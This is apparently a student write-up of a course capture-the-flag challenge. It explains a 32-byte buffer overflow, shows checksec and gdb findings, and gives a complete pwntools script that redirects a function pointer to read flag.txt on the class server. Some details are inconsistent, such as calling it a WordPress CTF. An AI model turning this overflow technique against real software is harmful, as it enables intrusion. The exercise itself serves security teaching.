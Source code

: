 # CTF5

This document is a brief explanation of our resolution of the Wordpress CTF presented in class during week 5.

## Recognition

We start exploring the program source code and answering this questions:

- **Question1**: Is there any file that is opened and readed by the program?

- **Answer**: Yes, there is a file that is opened by the program named `rules.txt`.

- **Question2**: Is there any way to control the file that is opened?

- **Answer**: We can change the file that is opened by redirecting the `fun` pointer, to the function `readtxt` and giving the name of the file that we want to open, `flag.txt`.

- **Question3**: Is there any way to cause a buffer overflow? If yes, what do we can do with that?

- **Answer**: Yes, is possible to cause a buffer overflow because the program allocates a buffer with a size of 32 bytes, but when it reads input using `scanf`, it expects to receive a string of up to 45 characters, which corresponds to 45 bytes. Since the buffer can only hold 32 bytes, providing an input longer than this will cause the data to overflow. Knowing about this possiblity we can create a buffer overflow to redirect the pointer `fun` to the function `readtxt`.

## Searching and Analysing

First we testes if the program is safe or have some types of vulnerabilities by running the command `checksec program` and this was what we obtain:

<div align="center">
    <figure>
        <img src="images/CTF5/checksec.png" width="550">
        <figcaption style="font-size: smaller;">Figure 1: Checksec information.</figcaption>
    </figure>
</div>

Here we can observe that the program have some important protection mechanisms deactivated:

 - **RELRO**: Without this, we can perform a GOT overwrite attack, redirecting the execution flow of the program.
 - **Stack Canary**: Here it says that the program has a canary but in the statement of the CTF it says that "the challenge binary does not contain a canary", make it easy to attack.
 - **PIE**: Without the PIE, the program loads at fixed address every time making it easy to exploit.

The program has some other important vulnerabilities deactivated but this are the most important ones to our exploit.

To realize the exploit we start by finding the memory address where the function `readtxt` is allocated. To do that we used the `gdb` tooland found that were the address `0x80497a5`.

<div align="center">
    <figure>
        <img src="images/CTF5/readtxt_address.png" width="550">
        <figcaption style="font-size: smaller;">Figure 2: readtxt address.</figcaption>
    </figure>
</div>

Then we just need to know what's the buffer size that we find by loocking at the source code and was 32 bytes.

This was all we need to do the exploit.

## Exploit

To do the exploit we create an script in python where we call the program, build a payload and put the payload in the input of the program.

Here is how the payload is constructed:
- `flag\x00`:
    - The string `"flag"` is followed by a null byte (`\x00`) to end the string.
    - This ensures the `sprintf` function in `readtxt` only processes `"flag"` and ignores the padding that follows.
- `b"A" * (31 - len("flag"))`:
    - This padding fills the rest of the buffer up to 31 bytes.
    - Since `"flag\x00"` is 5 bytes (`4 + 1` for the null byte), we pad with `31 - 5 = 26` bytes of A.
- `p32(0x80497a5)`
    - The little-endian address of `readtxt`
    - This overwrites the return address, redirecting execution to `readtxt`

Payload after construction:
```python
payload = b"flag\x00" + b"A" * (31 - len("flag")) + p32(0x80497a5)
```

To do this exloit we used the `pwntools` library in Python and this was the complete script we use to do this exploit:

```python
#!/usr/bin/python3
from pwn import *

# to attack the remote server
r = remote('ctf-fsi.fe.up.pt', 4000)
# to run locally
#r = process('./program')

readtxt_address = p32(0x80497a5)

flag = b"flag\x00"

payload = flag + b"A" * (31 - len("flag")) + readtxt_address
 
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```